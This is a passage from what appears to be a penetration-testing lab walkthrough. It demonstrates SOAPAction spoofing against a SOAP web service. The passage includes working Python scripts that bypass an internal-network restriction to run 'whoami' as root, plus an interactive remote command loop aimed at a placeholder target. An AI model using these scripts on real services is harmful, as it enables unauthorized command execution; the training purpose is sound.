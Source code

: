 The Python script can be executed, as follows.


```shell-session
smoothment@htb[/htb]$ python3 client.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

We get an error mentioning _This function is only allowed in internal networks_. We have no access to the internal networks. Does this mean we are stuck? Not yet! Let us try a SOAPAction spoofing attack, as follows.

Let us build a new Python script for our SOAPAction spoofing attack (save it as`client_soapaction_spoofing.py`).

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

- We specify _LoginRequest_ in`<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of _ExecuteCommand_ because we want to have the SOAP service execute a`whoami` command.
- We specify the blocked operation (_ExecuteCommand_) in the SOAPAction header

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a`whoami` command.

Let us execute the new script.

```shell-session
smoothment@htb[/htb]$ python3 client_soapaction_spoofing.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'
```

Our`whoami` command was executed successfully, bypassing the restrictions through SOAPAction spoofing!

If you want to be able to specify multiple commands and see the result each time, use the following Python script (save it as`automate.py`).


```python
import requests

while True:
 cmd = input("$ ")
 payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
 print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
